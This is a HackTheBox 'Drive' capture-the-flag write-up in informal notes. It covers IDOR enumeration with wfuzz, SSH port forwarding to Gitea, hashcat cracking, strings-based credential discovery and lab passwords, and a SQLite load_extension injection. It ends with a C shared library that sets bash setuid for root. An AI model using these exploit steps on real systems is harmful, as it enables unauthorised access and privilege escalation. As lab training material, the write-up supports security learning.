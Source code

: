 # Drive -htb(Compi)

namp :
	22, 80, 3000 filtered ppp ?

Have to create a acc on the site

user chao

my account pass : Chao@1999

After some googling and enum, i found a intersting url. drive.htb/<"id">/ block/

this endpoint is vuln to IDOR, so using wfuzz we can abuse this.

`wfuzz -u "http://drive.htb/FUZZ/block/" -z range,0-200 -H "Cookie: csrftoken=jJLDSCuSb4IqtLZOeeoZyXUdxQqcodOz; sessionid=y6beyol3xtu18c7vkjhjoutp8uq51igc" --hc 404`

tip: always enum/tinker with all the site's functionality . If you see ids , replace the id with any other number to see if u can read private info / information disclouser.

found user "martin" and his password "Xk4@KjyrYv8t194L!".

Interseitng IDs 99,98,79,101

---


## Martin SHELL ENUM:
	after using the creds ,we can login as martin.

Now i also found from the site's info leak that there was a backup folder in /var/www/backups

So i copied it to my local kali machine to further enumerate it.

`scp -r martin@10.10.11.235:/var/www/backups/ /home/kali/Desktop/HackTheBox/CompiHTB/Drive`

So there was nothing more in the shell for me , so i looked at the nmap scan again.

---
## Gitea ENUM:

Saw a filtered port 3000.

I did this type of asssemnt before so i tried to port forward it with ssh,

`ssh -L 8888:127.0.0.1:3000 martin@<ip>`

Now we visit the url `localhost:8888` in our browser and see GiTea(its a remote self hostin repo).

	Log in with the same martin creds as before.
	just add @drive.htb in the username after "martin"


There is a "crisDisel" repo, 
to access the repo, add your assinged forwarded port in order to access “crisDisel’s” repoitory.

There i found the zip password.
`H@ckThisP@ssW0rDIfY0uC@n:)`
I need dis pass to extract data from the backups.

----

CRACKING the password.sh File with hashCAT
--
hashcat -m 124 hash /usr/share/wordlists/rockyou.txt
gives dis res:
`sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a:johnmayer7`

This was for user `TomHands 
`tomHandstom@drive.htb`
pass: `johnmayer7`

After using this in ssh, change user - tom , i got the user flag.

Its time for the Escalation.

---

PRIV ESC
----------
There is a doodle cli there . Maybe the key to exploitation lies there.
But the cli is asking for creds, i dont have any,

Lets `strings` it to see if we find any creds.
`moriarty
findMeIfY0uC@nMr.Holmz!

found these. ALWAYS remember to use strings on files that ask u smth, or any files .


Also using the strings command i found a sqliite injection where the doodle-cli was asking for the username activation.

so i created a `exploit.py` file containing :
	`line = "./a"
	`print("\"+load_extension(char(" + ",".join(map(str, map(ord, line))) + "))+\"")`

and then created a shared librarry file , that shared librarry file will be needed to work with Run-Time Loadable Extensions .

Looking up in google tells us that :
`An SQLite extension is a shared library or DLL. To load it, you need to supply SQLite with the name of the file containing the shared library or DLL and an entry point to initialize the extension. In C code, this information is supplied using the [sqlite3_load_extension()](https://www.sqlite.org/c3ref/load_extension.html) API. See the documentation on that routine for additional information.`
So we need a  `.so` (shared library) file . We need a .c file and then complie it to a .so file.

There is also some sanitization and bypasses goin on in the app so the exploit file containing the payload is edited to fit .

Then you must create a file named a.c and in that put:

	#include <stdlib.h>
	#include <unistd.h>

	void _init() {
	    setuid(0);
	    setgid(0);
	    system("/usr/bin/chmod +s /bin/bash");
	}


Then you must turn this file into a shared object , namely a.so file

the command for that is :
	gcc -shared a.c -o a.so -fPIC

then run the app, select 5 and when it askes username just put the results of the exploit file.

After that restart the ssh connection and bash -p and u get root.

pwnd!

----

